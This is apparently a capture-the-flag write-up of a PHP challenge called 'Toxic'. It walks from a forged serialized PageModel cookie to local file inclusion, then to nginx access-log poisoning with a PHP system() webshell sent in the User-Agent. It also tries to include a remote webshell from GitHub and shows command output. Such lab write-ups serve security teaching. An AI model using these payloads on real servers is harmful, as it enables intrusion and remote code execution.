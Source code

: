 # Toxic

> **Humanity has exploited our allies, the dart frogs, for far too long, take**
> **back the freedom of our lovely poisonous friends. Malicious input is out of**
> **the question when dart frogs meet industrialisation.**

## Cookies!

The page's cookie is a serialize php object:

```bash
echo Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9 | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

It represents the page object meant to be included by `index.php`:

```php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

## Object deserialization & LFI

Let's try and include another file:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:30:"/www/static/css/production.css";}'))
```
(for some reason the shell encoding has padding while the php version does not)

> `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czozMDoiL3d3dy9zdGF0aWMvY3NzL3Byb2R1Y3Rpb24uY3NzIjt9`

After changing the cookie with the dev tools, refreshing actually returns the junk css.

## Fast and failed

Naïvely:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:5:"/flag";}'));
```

This returns an empty page: the flag name is randomized at the start.

The first idea is to include a web url:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:83:"https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/php/cmd.php";}'));
```

But the server is not connected to the internet or at least blocks the php filters:

```php
echo(base64_encode('O:9:"PageModel":1:{s:4:"file";s:11:"php://input}')."\n");
```

Since this previous snippet fails as well.

## Log poisoning

The goal is to find a log file and inject the php code for a web/reverse shell.
Then the LFI bug will give us code execution.

### Finding the log file

#### Enumeration

The LFI can also serve for file enumeration, with a wordlist of base64 encoded path:

```bash
ffuf -b "PHPSESSID=FUZZ" -w paths.b64 -fs 0 -u http://127.0.0.1:1337/
```

#### Wordlist generation

And we can create the wordlist with:

```php
echo(base64_encode(sprintf(
    'O:9:"PageModel":1:{s:4:"file";s:%d:"%s";}',
    strlen($argv[1]),
    $argv[1]
))."\n");
```

And:

```bash
cat /usr/share/wordlists/discovery/log.txt | xargs -I{} -n1 php toxic.php {} > paths.b64
```

#### Results

There are 2 target log files:

> `/var/log/nginx/access.log`
> `/var/log/nginx/error.log`

### Poisoning the log file

Looking at the access log:

```bash
curl -b "PHPSESSID=$(php toxic.php /var/log/nginx/access.log)" \
  -p -x 127.0.0.1:8080 \
  http://127.0.0.1:1337
```

```
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36" 
172.17.0.1 - 200 "GET /nginx HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"
```

The user agent is printed in the file. Let's try and replace it with code:

```bash
curl -A '<?php system(urldecode($_REQUEST['cmd']));?>' http://127.0.0.1:1337
```

### Executing the log file

Accessing the log file with a command as get argument:

```bash
curl -b "PHPSESSID=$(php toxic.php /var/log/nginx/access.log)" -p -x 127.0.0.1:8080 http://127.0.0.1:1337/index.php?cmd=id
```

Returns:

```
...
172.17.0.1 - 200 "GET /index.php?cmd=id HTTP/1.1" "-" "noleak" 
172.17.0.1 - 200 "GET /index.php?cmd=id HTTP/1.1" "-" "uid=1000(www) gid=1000(www) groups=1000(www)
```

Sooooooo, let's search for the flag:

```bash
curl -b "PHPSESSID=$(php toxic.php /var/log/nginx/access.log)" -p -x 127.0.0.1:8080 http://127.0.0.1:1337/index.php?cmd=ls /
```

```
172.17.0.1 - 200 "GET /index.php?cmd=id HTTP/1.1" "-" "bin
dev
entrypoint.sh
etc
flag_3ozfd
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
" 
172.17.0.1 - 408 "GET /index.php?cmd=id HTTP/1.1" "-" ""
```

And:

```bash
curl -b "PHPSESSID=$(php toxic.php /flag_3ozfd)" http://127.0.0.1:1337/index.php
```
